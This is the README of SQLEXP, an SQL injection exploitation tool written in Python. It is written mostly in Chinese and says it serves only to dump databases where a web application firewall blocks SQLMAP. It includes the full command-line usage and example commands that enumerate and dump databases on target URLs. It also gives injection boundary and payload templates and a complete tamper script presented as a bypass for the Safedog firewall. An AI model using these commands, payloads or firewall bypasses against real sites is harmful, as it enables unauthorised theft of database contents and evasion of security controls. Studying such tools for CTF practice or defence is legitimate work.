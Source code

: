 # SQLEXP
[![Python 2.7](https://img.shields.io/badge/python-2.7-yellow.svg)](https://www.python.org/)[![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/ggg4566/SQLEXP/blob/master/LICENSE)

​		SQL 注入利用工具，存在waf的情况下自定义编写tamper脚本 dump数据.

​		对于SQL注入漏洞利用通常情况下我们使用SQLMAP，在waf存在的场景下想利用自己独有的payload进行注入抓取数据，这个时候SQLMAP就显得那么力不存心，这种情况并不少见，对于ctfer来说经常会遇到，每次都要重复编写脚本对于一个IT人士来说显然不可接受。该工具正是解决waf存在场景下利用SQLMAP dump数据的难题，使用方法和SQLMAP基本相同，只要你会使用SQLMAP那么该工具上手非常容易.

![image-20200427175012921](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427175012921.png)

**使用手册：**

​		使用方法和SQLmap类似，仅仅实现了mysql、oracle、mssql,支持[U|E|B|T]四种方式的注入。

* 该工具仅仅是用来利用SQL注入漏洞，并不支持检测
* 只实现了最基本的数据dump功能并不能像SQLMAP一样--os-shell以及其他用法
* 从request 文件里面加载利用注入点插入$\*$ ```id=1$*$&submit=submit```

---

```
Usage: python SQLEXP.py [options]

Options:
  -h, --help  show this help message and exit
Usage: python SQLEXP.py [options]

Options:
  -h, --help            show this help message and exit
  -v, --version         Show program's version number and exit

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")

  Request:
    These options can be used to specify how to connect to the target URL

    --method=METHOD     Force usage of given HTTP method (e.g. GET|POST)
    --data=DATA         Data string to be sent through POST
    --cookie=COOKIE     HTTP Cookie header value
    --proxy=PROXY       Use a proxy to connect to the target URL,only can use
                        http proxy:[http://127.0.0.1:8080]
    --timeout=TIMEOUT   Seconds to wait before timeout connection
    --delay=DELAY_TIME  dbms delay timeout

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p PARAMETER        Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to this value
    --technique=TECH    SQL injection techniques to use (default "E")
    --string=FLAG       String to match when query is evaluated to True
    --time-sec=TIME_SEC
                        Seconds to wait before timeout connection
    --order-sec=ORDER_SEC
                        Resulting page URL searched for second-order response
    --tamper=TAMPER     Use given script(s) for tampering injection data
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --dump              Dump DBMS database table entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Misc:
    These options can be show some additional function.

    --debug             show deubg payload.
    
 Example: 
 list dbs:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql --dbs --tech U
 list tables:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql -D test --tables --tech U --proxy http://127.0.0.1:8080
 dump test db data:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql -D test --dump --tech E
#python SQLEXP.py -u "http://web.jarvisoj.com:32787/login.php" --data="username=user&password=admin" -p username --tamper=tamper_blank --dbms=mysql --technique=B --string="密码错误" --method=post  --dbs
#python SQLEXP.py-u http://localhost/sqlinject/sqlinject.php?id=2  -r req.txt --dbms mysql --tech E  --current-user  --debug
```

**开发手册：**

---

* 二次开发

工具设计思想借鉴了SQLMAP整个payload由boundary和基本查询query构成

![image-20200427183437621](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427183437621.png)

为了方便扩展添加支持其他数据库，构造语句和payload高度分离，不同数据库不同注入方法使用单独一个文件编写，由于对数据库基本查询能力进行了高度抽象化，所以添加支持其他数据引擎非常容易，只需要copy一份已经支持的数据库代码文件，在payload.py里面添加相对应的boundary和 base query即可。

​		比如添加支持db2：

​		1.copy -r SQLEXP\lib\core\dbs\mysql SQLEXP\lib\core\dbs\db2

  	  2.在SQLEXP\lib\parse\payload.py文件里面添加对应的代码

```python
db2_boundarys = {
    "length":"and len(%query)=%value",
    "time_length":"if(len(%query)>%value) WAITFOR DELAY '0:0:{T}'".format(T = conf.time_sec),
    ....
}
db2_payloads = {
    "query":"(select %s from t_n)",
    "base_query":"(select temp from (select ROW_NUMBER() OVER(order by (select 0)) AS limit,(%s) as temp from t_n)xx where limit=%d)",
    "query_tab":"(select tn from (select  ROW_NUMBER() OVER(order by (select 0)) AS limit,(%s) as tn from {db}.t_n)xx where limit=%d)",
    ...
}
....
if conf.dbms == 'db2':
    BOUNDARY.update(mssql_boundarys)
    SQL.update(mssql_payloads)
```

​	一定注意的的是这里创建的数据库文件夹和py文件名和--dbms参数联系紧密，程序运行的时候通过--dbms的参数来决定加载那个数据库引擎的代码，所以果然--dbms=db2的时候，db2/db2_E.py,db2/db2_U.py等文件一定要存在。

![image-20200427185702838](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427185702838.png)

![image-20200427185838021](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427185838021.png)

* Tamper编写

  tamper主要针对waf存在场景下的数据dump.

  编写非常简单只要将bounday和query替换为自己测试绕过的语句即可,以下为最新safedog的绕过tamper

  ```python
  #! /usr/bin/env python
  # -*- coding:utf-8 -*-
  # author:flystart
  # home:www.flystart.org
  
  b = " xor exp(~(/*!50000select*/*from(select(%query))a))"
  
  def do(strings):
      if "concat" in strings:
          strings = strings.replace('concat(',"/*!concat*/(")
      if "user" in strings:
          strings = strings.replace('user(',"/*!user*/(")
      strings = strings.replace(' and ', "&&")
      return strings
  def tamper(boundary,query):
      # print 'tamper'
      boundary = b
      query = do(query)
      return boundary,query
  ```

  ![image-20200427190147278](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427190147278.png)

**参考：**

https://github.com/shack2/SuperSQLInjectionV1

https://github.com/sqlmapproject/sqlmap